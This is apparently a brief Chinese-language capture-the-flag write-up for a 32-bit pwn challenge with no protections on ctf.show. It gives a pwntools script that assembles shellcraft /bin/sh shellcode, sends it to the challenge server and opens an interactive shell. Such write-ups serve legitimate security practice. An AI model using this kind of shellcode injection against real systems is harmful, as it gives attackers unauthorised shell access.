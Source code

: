 # 挑战简介
32位 无限制

# 思路
利用shellcraft直接编写一个sh脚本即可  

没有限制，直接写进去就能编译  

```
from pwn import *
from LibcSearcher import *
context.log_level = "debug"

p = remote("pwn.challenge.ctf.show",28109)
elf = ELF('D:\edge 下载\pwn')

shellcode = asm(shellcraft.sh())

payload = shellcode

p.sendline(payload)

p.interactive()

```
